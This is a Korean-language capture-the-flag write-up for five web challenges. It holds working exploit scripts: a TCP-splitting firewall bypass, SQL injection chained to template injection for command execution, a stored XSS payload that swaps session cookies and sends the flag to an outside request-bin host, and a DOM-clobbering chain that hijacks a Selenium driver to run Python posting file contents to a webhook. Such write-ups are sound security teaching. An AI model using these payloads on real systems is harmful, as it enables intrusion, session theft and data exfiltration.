


## Solve
- firewall (Web)
- no-quotes (Web)
- no-quotes-2 (Web)
- personal-blog (Web)
- pasteboard (Web)

## Comment
Fermion으로 뛰었다. pasteboard 못푼거 너무 아쉽다.

## Write-Up
### Firewall
eBPF 방화벽이 구현 되어 있다. `flag.html`에 도달하면 플래그를 준다.

```c
#define KW_LEN 4
static const char blocked_kw[KW_LEN] = "flag";
static const char blocked_char = '%';

if (iph->frag_off & bpf_htons(IP_MF | IP_OFFSET))   // no fragmentation
    return TC_ACT_SHOT;

// scan TCP header ~ payload
if (has_blocked_kw(skb, ETH_HLEN + ip_hdr_size, ip_tot_len - ip_hdr_size))
    return TC_ACT_SHOT;

if (has_blocked_char(skb, ETH_HLEN + ip_hdr_size, ip_tot_len - ip_hdr_size))
    return TC_ACT_SHOT;

return TC_ACT_OK;
```

ipv4/TCP 대상으로만 패킷을 받으며, 패킷 한 덩어리에 `flag`나 `%`(URL Encoding 차단) 가 존재하면 드롭시킨다.

TCP 패킷을 두 덩이로 쪼개어 보냄으로써 Waf를 우회할 수 있다.

```py
import socket
import time

HOST = "35.227.38.232"
PORT = 5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
s.settimeout(5.0)
s.connect((HOST, PORT))

s.send(b"GET /fla")
time.sleep(0.2)

req2 = (
    b"g.html HTTP/1.1\r\n"
    b"Host: 35.227.38.232:5000\r\n"
    b"Range: bytes=135-\r\n"
    b"Connection: close\r\n"
    b"\r\n"
)
s.send(req2)
s.shutdown(socket.SHUT_WR)

data = b""

while True:
    chunk = s.recv(4096)
    if not chunk:
        break
    data += chunk

print(data.decode(errors="ignore"))
```

`uoftctf{f1rew4l1_Is_nOT_par7icu11rLy_R0bust_I_bl4m3_3bpf}`

---

### No-quotes
간단한 로그인 서비스가 구현 되어있다.

```py
def waf(value: str) -> bool:
  blacklist = ["'", '"']
  return any(char in value for char in blacklist)

@app.post("/login")
def login():
  username = request.form.get("username", "")
  password = request.form.get("password", "")

  if waf(username) or waf(password):
    return render_template(
      "login.html",
      error="No quotes allowed!",
      username=username,
    )
  query = (
    "SELECT id, username FROM users "
    f"WHERE username = ('{username}') AND password = ('{password}')"
  )

@app.get("/home")
def home():
  if not session.get("user"):
    return redirect(url_for("index"))
  return render_template_string(open("templates/home.html").read() % session["user"])
```


login에서 SQL Injection이 발생하고, `/home`에서 SSTI가 발생한다. readflag가 실행파일로 존재하기 때문에 RCE 해야한다.  
quote 두 개가 모두 필터링 되고 있기에 quote를 이스케이프 시킴으로써 WAF를 통과할 수 있다.

```py
import requests

r = requests.Session()

url = 'https://no-quotes-5dc804b998ad0160.chals.uoftctf.org'

def get_ssti():
  payload = "{{ cycler.__init__.__globals__.os.popen('/readflag').read() }}"
  hex = payload.encode().hex()

  return hex

login_res = r.post(f'{url}/login', data = {'username': '\\', 'password': f') UNION SELECT 1,0x{get_ssti()}#' }, allow_redirects=False)

print(login_res.text)

home_res = r.get(f'{url}/home')

print(home_res.text)
```

`uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}`

---

### No-quotes-2
`no-quote-1`과 다르게 sql에서 반환한 username과 password가 모두 올바른지 검사하고 있다.

```py
if not username == row[0] or not password == row[1]:
  return render_template(
    "login.html",
    error="Invalid credentials.",
    username=username,
  )
session["user"] = row[0]
return redirect(url_for("home"))
```

processlist에서 입력값을 재추출해 맞추고, 같은 방식으로 RCE해서 플래그를 얻을 수 있다.

```py
import requests

r = requests.Session()
url = 'https://no-quotes-2-e711bd2e4da001f2.chals.uoftctf.org'

def build_username():
    chr_func = f"cycler.__init__.__globals__.__builtins__.chr"
    chars = [47,114,101,97,100,102,108,97,103]  # "/readflag"
    cmd = "~".join(f"{chr_func}({c})" for c in chars)
    payload = "" + "{{ g.os.popen(" + cmd + ").read() }}"
    return payload + "\\"

def build_password(username):
    u_hex = username.encode().hex()
    marker1 = "password = ('".encode().hex()
    marker2 = "')".encode().hex()
    u_expr = f"CAST(0x{u_hex} AS CHAR)"
    p_expr = f"SUBSTRING_INDEX(SUBSTRING_INDEX(info,0x{marker1},-1),0x{marker2},1)"
    return (
        ") UNION SELECT "
        + u_expr
        + ", "
        + p_expr
        + " FROM information_schema.processlist WHERE id=connection_id()#"
    )

username = build_username()
password = build_password(username)

login_res = r.post(
    f'{url}/login',
    data={'username': username, 'password': password},
    allow_redirects=False
)
print(login_res.text)

home_res = r.get(f'{url}/home')
print(home_res.text)
```

`uoftctf{d1d_y0u_wR173_4_pr0P3r_qU1n3_0r_u53_INFORMATION_SCHEMA???}`

---

### Personal Blog



인풋은 두 군데에 넣을 수 있다. 그냥 글을 쓰면 XSS가 터지지 않는다.

의심해 볼 수 있는건 `/autosave`와 `/api/save` 두 엔드포인트가 존재한다는 것이다.
`/autosave`는 30초마다 호출되며, 클라이언트 사이드에서 본문을 sanitize 하고, `/api/save`는 서버 사이드에서 sanitize한다.
따라서 `/autosave`의 바디를 조작해 보낸다면 문제 없이 Stored XSS가 가능하다.

```py
import requests
import re

r = requests.Session()

url = 'http://34.26.148.28:5000'

def login():
  res = r.post(f'{url}/login', data = { 'username': 'ferferfermimimiononon', 'password': 'ferferfermimimiononon' }, allow_redirects=False)

  return res.status_code == 302

def get_post_id():
  res = r.get(f'{url}/dashboard')
  
  post_id = res.text.split('<a class="button ghost" href="/post/')[1].split('">View</a>')[0]

  return post_id

def autosave_post(post_id, content):
  res = r.post(f'{url}/api/autosave', json = { 'postId': post_id, 'content': content})

  return res.json()

def gen_magic_token():
  r.post(f"{url}/magic/generate")
  res = r.get(f"{url}/account")
  m = re.findall(r"/magic/([0-9a-f]{32})", res.text)

  return m[0]

def send_report(target, pow_challenge, pow_solution):
  res = r.post(f'{url}/report', data = { 'url': target, 'pow_challenge': pow_challenge, 'pow_solution': pow_solution })

  return res.status_code

login_res = login()
print('Login', login_res)

payload = r"""<script>
const sidPrev = document.cookie.split('; ').find(c=>c.startsWith('sid_prev='));
if(sidPrev){
  const sid = decodeURIComponent(sidPrev.split('=')[1]);
  document.cookie = 'sid='+sid+';path=/';
  fetch('/flag').then(r=>r.text())
    .then(f=>fetch('https://gmayxdq.request.dreamhack.games?flag='+encodeURIComponent(f)));
}
</script>"""
post_id = get_post_id()
autosave_res = autosave_post(post_id, payload)

print('Auto Save', autosave_res)

pow_chall = r.get(f'{url}/report').text.split('sh -s ')[1].split('</code>')[0]
print(pow_chall)
print(f'Solve: curl -sSfL https://pwn.red/pow | sh -s {pow_chall}')
pow_sol = input('pow sol >> ')

magic_token = gen_magic_token()

print('Magic Token', gen_magic_token())

report_res = send_report(f'http://localhost:3000/magic/{magic_token}?redirect=/edit/{post_id}', pow_chall, pow_sol)
print('Report res', report_res)
```

`uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}`

---

### Pasteboard
XSS가 RCE로 이어지는 흥미로운 문제였다.

Dompurify로 입력을 sanitize하고 있기에 이를 우회하긴 어려워보인다.

```js
(function () {
  const n = document.getElementById("rawMsg");
  const raw = n ? n.textContent : "";
  const card = document.getElementById("card");

  try {
    const cfg = window.renderConfig || { mode: (card && card.dataset.mode) || "safe" };
    const mode = cfg.mode.toLowerCase();
    const clean = DOMPurify.sanitize(raw, { ALLOW_DATA_ATTR: false });
    if (card) {
      card.innerHTML = clean;
    }
    if (mode !== "safe") {
      console.log("Render mode:", mode);
    }
  } catch (err) {
    window.lastRenderError = err ? String(err) : "unknown";
    handleError();
  }

  function handleError() {
    const el = document.getElementById("errorReporterScript");
    if (el && el.src) {
      return;
    }

    const c = window.errorReporter || { path: "/telemetry/error-reporter.js" };
    const p = c.path && c.path.value
      ? c.path.value
      : String(c.path || "/telemetry/error-reporter.js");
    const s = document.createElement("script");
    s.id = "errorReporterScript";
    let src = p;
    try {
      src = new URL(p).href;
    } catch (err) {
      src = p.startsWith("/") ? p : "/telemetry/" + p;
    }
    s.src = src;

    if (el) {
      el.replaceWith(s);
    } else {
      document.head.appendChild(s);
    }
  }
})();
```

window 전역 프로퍼티를 DOM Clobbering으로 오염시킴으로써, `window.errorReporter`와 `window.errorReporter.path.value` 값을 마음대로 핸들링 할 수 있다.
원래는 `/telemetry/error-reporter.js`를 로드해야 하는데, `window.errorReporter.path.value`가 존재한다면 이를 우선 사용해 script src로 만든다.

`mode`는 사용되지 않는 값이다. 수상하다고 생각했고, `mode.toLowerCase()` 부분에서 에러를 낸다면 `handleError()`가 실행되어 조작된 `errorReporter.path`에서 스크립트를 가져와 실행한다는걸 알아냈다.
mode를 DOM Clobbering하면 mode의 타입이 string이 아닌 HTMLElement로 만들 수 있다. toLowerCase 함수는 string만 사용 가능하므로 에러가 나, 의도대로 동작시킬 수 있다.

이렇게 XSS를 성공시키고 나면 한 번 더 막힌다.

일반적인 봇들과 다르게 FLAG 변수를 선언만 해놓고 어디에서도 사용하지 않기 때문이다.

```py
import time

from selenium import webdriver
from selenium.webdriver.chrome.options import Options

BASE_URL = "http://127.0.0.1:5000"
FLAG = "uoftctf{FAKE}"

def visit_url(target_url):
    options = Options()
    options.add_argument("--headless=true")
    options.add_argument("--disable-gpu")
    options.add_argument("--no-sandbox")
    driver = webdriver.Chrome(options=options)
    try:
        driver.get(target_url)
        time.sleep(30)
    finally:
        driver.quit()
```

이제 Selenium 로컬포트를 스캐닝하고 RCE해서 플래그를 따야한다.

같은 컨테이너 localhost에 Selenium webdriver 서버가 떠 있다. 그래서 `/session` 엔드포인트를 대상으로 selenium webdriver "new session" 요청을 날려 포트를 브루트포싱하고 아래와 같이 바디를 보내 드라이버의 실행 대상을 크롬에서 임의의 파이썬으로 바꿔치기 할 수 있다.

```js
JSON.stringify({
  capabilities: {
    alwaysMatch: {
      browserName: "chrome",
      "goog:chromeOptions": {
        binary: "/usr/local/bin/python",
        args: [`-cimport re,urllib.request,urllib.parse;urllib.request.urlopen(urllib.request.Request("<WEBHOOK>",urllib.parse.urlencode({"flag":re.search(r"uoftctf\{[^}]+\}",open("/app/bot.py").read()).group(0)}).encode()))`],
      },
    },
  },
});
```

`uoftctf{n0_c00k135_n0_pr0bl3m_1m40_122c3466655003ca64d689e3ee0e786d}`